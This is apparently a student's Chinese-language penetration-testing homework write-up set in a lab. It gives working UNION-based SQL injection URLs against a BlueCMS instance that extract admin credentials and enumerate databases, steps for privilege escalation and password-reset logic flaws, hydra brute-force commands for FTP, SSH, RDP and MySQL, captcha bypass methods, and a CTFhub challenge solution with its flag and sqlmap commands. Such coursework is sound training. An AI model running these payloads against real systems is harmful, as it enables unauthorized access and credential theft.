


# 作业
## 1. bluecms旁注漏洞练习
### 为什么旁站的攻击可以拿下主站
- 答：因为主站和旁站在同一个服务器上，通过拿下旁站从而拿下整台服务器，进而也就拿下了主站
### 跨库的意思是什么
- 答：跨库，是一个服务器上可能有多个站点，多个站点共用同一个数据库管理系统，通过sql注入拿下其他数据库，从而拿下整个数据库管理系统，进而也就拿下了在同一个数据库管理系统的所有数据库
- 例如：利用information-schema进行跨库注入
### 理解基于功能挖掘漏洞的过程
- 通过对功能点抓包，观察一个功能点是实现，经历了几个数据包，每个数据包的参数是什么，去推断功能点的实现过程和逻辑，进而取在其中挖掘漏洞
- 网站后台的功能点一般来说会比网站前端的功能点更多，也意味着出现漏洞的可能性越大，所以查找一个网站的后台地址，也是前期的一个重要的信息收集过程
- 通过爬虫，子目录等方法，进行信息收集，寻找可能存在的漏洞点和后台
- 对bluecms进行账号子目录扫描


- 根据子目录：`fckeditor/`可以发现fckeditor编辑器

- 查看这个编辑器版本，可发现该版本存在文件上传漏洞
- 同时该子目录中查到sql后缀文件，盲猜，存在信息泄露
- 找到后台地址

- 根据后台地址可以尝试爆破
  - 先查看是否可以进行账号枚举，为后期爆破减少计算量
  - 然后查看是否存在弱锁定
  - 通过实验可以发现，这个后台地址无法进行账号枚举，但是存在弱锁定
  - 然后抓包观察是否存在不可控参数影响爆破
  
  - 根据数据包可以发现，应该不存在不可控参数，可以尝试进行账号密码的爆破
  
  - 爆破成功后，即可登录后台，根据后台的功能点挖掘其他漏洞
  
  - 发布信息的功能点可能存在的漏洞：
    - XSS
    
    - 文件上传
    - 文件包含
    - SQLi
    - 编辑器
      - fckeditor编辑器存在文件上传漏洞
  - 删除功能点可能存在的漏洞：
    - 越权
    - 未授权
  - 添加广告后，发现"获取JS"的功能，根据获取JS的这个功能猜测JS的获取途径
    - 本地：文件包含，任意文件读取
    - 数据库：SQLi
    - 远程服务器：远程文件包含，ssrf
  - 根据测试可发现，获取js的文件给出的路径，信息是存在数据库中，所以测试SQL注入的漏洞的可能性
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=3 (查询源代码可知，没有任何返回值)
  ```
  
  根据报错情况确当列数
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=3 order by 1
  ...
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=3 order by 8
  // 报错
  ```
  - 证明字段共有7位
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=3 union all select 1,2,3,4,5,6,7
  ```
  - 依然无数据，猜测可能时显示位不足导致的，将第一个返回值查询失败，使其不显示，然后测试
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,7
  ```
  - 测试可得：
  
  - 证明第七位可以显示，至此，可以使用联合注入分别得到库名，表名，字段名和数据
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3%20union%20all%20select%201,2,3,4,5,6,database()
  ```
  
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3%20union%20all%20select%201,2,3,4,5,6,(select%20group_concat(TABLE_NAME)%20from%20information_schema.tables%20where%20TABLE_SCHEMA%20=%20database())
  ```
  
  - 以此类推，注出字段名和数据
  - 除了上述使用构造sql语句的方式避开单引号限制外，也可以使用16进制编码来避开单引号，实现对字符串的查询
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,(select group_concat(TABLE_NAME) from information_schema.tables where TABLE_SCHEMA = 0x6d7973716c)
  ```
  - 字段名
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 0x626c75655f61646d696e)
  ```
  
  - 具体数据
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,(select concat(admin_name,pwd) from blue_admin limit 0,1)
  ```
  
  - 查询当前共有哪些数据库，实现跨库
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,(select  group_concat(schema_name) from information_schema.schemata)
  ```
  
  - 共4个数据库
  - 借此可以查询所有数据库
  - 其他数据库数据同理可得...

## 2. 水平越权&垂直越权漏洞实验
### 水平越权
- 谷歌浏览器登录lucy账号

- 在火狐浏览器登录kobi账号

- 在火狐浏览器抓包，将username的值改为lucy

- 此时火狐浏览器的个人信息变成了lucy的信息，实现了水平越权


### 垂直越权
- 谷歌浏览器登录admin超级账号，该账号有添加删除权限

- 使用火狐浏览器登录普通账号，该账号没有删除添加权限

- 将admin账号中添加用户的url在登录普通股账号的火狐浏览器上打开，发现以pikachu的身份，可以登录该页面，并进行修改
 
- 尝试修改后，登录pikachu查看修改结果

- 创建成功，实现垂直越权漏洞
- 除参数外，Cookie值的修改也可以实现越权访问


## 3. 密码修改逻辑漏洞 
- 使用aaaaa用户登录

- 修改密码时抓包

- 将id改为1，然后将数据发出
- 此时观察数据可发现admin的密码被修改为123

- 实现越权密码修改


## 4. 暴力破解
### 使用hydra实现对ftp、ssh、rdp、mysql的暴力破解
- ftp爆破
  - 搭建一个ftp服务在window7上
  - 然后再kali上使用hydra，配置好两台设备之间的网络
  - 在kali的命令行中输入
  ```
  hydra 192.168.0.92 ftp -l admin -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
  ```
  
  爆破成功

- ssh爆破
  - 在kali的命令行中输入
  ```
  hydra 192.168.0.90 ssh -l mystical -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
  ```
  

- rdp爆破
  - 在kali的命令行中输入
  ```
  hydra 192.168.0.92 rdp -l mystical -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
  ```
  
  - 爆破成功


- mysql爆破
  - 在kali的命令行中输入
  ```
  hydra 192.168.0.85 mysql -l admin -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
  ```
  
  - mysql爆破成功


## 5. 验证码安全
### 验证码绕过（on client）

- 抓包测试，即使将验证码参数在数据包中删除，然后发送，依然能显示success，证明该验证码是on client前端校验
- 禁用jS和burp都可以有效绕过前端校验验证码

### 验证码绕过（On server）
- 随便输入一个密码，然后输入正确的验证码，抓包
- 在验证码参数不变的情况下，爆破密码


- 爆破成功


#### 验证码绕过（on server）实验中，为什么 burp 拦截开启的状态下，通过 Repeater 进行重放不会刷新验证码，关闭拦截后才会刷新验证码？
答：
- burp拦截开启的过程中，通过repeater进行重放，此时，并没有完成一次完整的请求响应，因此，验证码在这个过程中并没有销毁，重新生成，而是被重复使用
- 关闭拦截后，由于客户端发送的数据包经历了一次完整通信过程，原验证码被销毁，生成了新的验证码，因此，关闭拦截后会刷新新验证码

## 6. CTFhub：SQL 注入靶场
### 手工注入
```
-1' union all select 1,database()#
```
database:sqli
```
-1' union all select 1,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'sqli')#
```
table: flag
```
-1' union all select 1,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'flag')
```
column :flag
```
-1' union all select 1,(select flag from flag)#
```
flag:ctfhub{20c2a94e769769d9c6f8d9b6}


### Sqlmap注入

```
python sqlmap.py -r "file/ctf_sql_1.txt" -f --batch --dbs -- columns
```

```
python sqlmap.py -r "file/ctf_sql_1.txt" -f --batch -D sqli -T flag -C flag --dump
```
